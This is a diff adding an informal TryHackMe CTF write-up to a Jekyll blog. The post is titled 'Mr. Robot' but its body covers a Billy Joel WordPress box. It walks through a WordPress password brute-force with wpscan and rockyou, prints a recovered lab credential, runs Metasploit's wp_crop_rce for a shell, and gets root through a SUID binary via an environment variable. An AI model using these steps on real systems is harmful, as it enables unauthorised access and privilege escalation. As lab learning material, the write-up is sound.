

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-10-30-billyjoel.md, in a window 1280 px wide and 1400 px high, scrolled down 731 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2025-10-30-billyjoel.md

```diff
--- a/_posts/2025-10-30-billyjoel.md
+++ b/_posts/2025-10-30-billyjoel.md
@@ -9,3 +9,118 @@
 # Mr. Robot
 -TRYHACKME CTF WRITEUP-
 [Link To CTF](https://tryhackme.com/room/mrrobot)
+
+
+
+BILLY JOEL
+
+
+
+
+nmap shows:
+22/tcp  open  ssh
+80/tcp  open  http
+139/tcp open  netbios-ssn
+445/tcp open  microsoft-ds
+
+smbmap shows:
+        print$                                                  NO ACCESS       Printer Drivers
+        BillySMB                                                READ, WRITE     Billy's local SMB Share
+        IPC$                                                    NO ACCESS       IPC Service (blog server (Samba, Ubuntu))
+[*] Closed 1 connections
+
+
+****SMB rabbit Hole
+We can see 2 images and 1 mp4 audio file
+Lets download all 3
+
+Alice-white-rabbit turned out to be a rabbit hole
+tswift is literally a taylor swift music video
+check-this opens a urlcode to a billy joel music vido
+
+***Looks like SMB was a dead end
+
+****Going to /wp-content shows another dead end
+*** http://10.201.58.182/wp-admin/admin-ajax.php also dead end
+
+
+As this machine details that a wordpress blog is being used lets check it out
+wpscan --update
+wpscan -H
+wpscan -e vp,vt,u
+
+
+Looking at robots.txt
+User-agent: *
+Disallow: /wp-admin/
+Allow: /wp-admin/admin-ajax.php
+
+*** http://10.201.58.182/wp-admin/admin-ajax.php also dead end
+
+login page at:
+/wp-admin/
+
+Full scan shows usernames
+bjoel
+kwheel
+
+we can brute force passwords for these usernames
+wpscan --url http://10.201.58.182 --usernames bjoel,kwheel --passwords /usr/share/wordlists/rockyou.txt
+
+
+We get karen Wheelers username and password
+Username: kwheel, Password: cutiepie1
+
+We can login at /wp-admin
+
+Attempting to upload payloads shows filters preventing the php script
+
+
+This is WordPress 5.0, which is vulnerable!
+If we take a look at exploit-db, We find out that there is a vulnerability "WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)",
+
+
+
+Searching WordPress 5.0 on Metasploit we can run exploit  #0
+0   exploit/multi/http/wp_crop_rce
+enter USERNAME PASSWORD RHOST AND LHOST AND LPORT
+
+
+
+We get shell as www-data
+
+
+Looking for the user flag we see its not where we think it is:
+
+
+Looking for clues we see a termination letter
+
+
+The company is rubber ducky and billy joel was let go for illegal use of removable media
+lets check /media/usb -- denied
+
+
+let try find / -type f -perm -04000 -ls 2>/dev/null
+
+We see something interesting
+
+/usr/sbin/checker
+
+
+it is a root owned binary, with SUID flag on
+
+
+ it gets the "admin" environment variable and prints out "Not an Admin". Wait, so if we set this environment variable, what happens?
+
+
+$ export admin=1
+$ ltrace checker
+
+
+so now it tries to run bash! And since this is owned by root, it'll run bash as root!
+/usr/sbin/checker
+
+
+ We now get root and see the user flag where we tried to look before
+We also now get root flag
+!!!!!!!!!!!
```
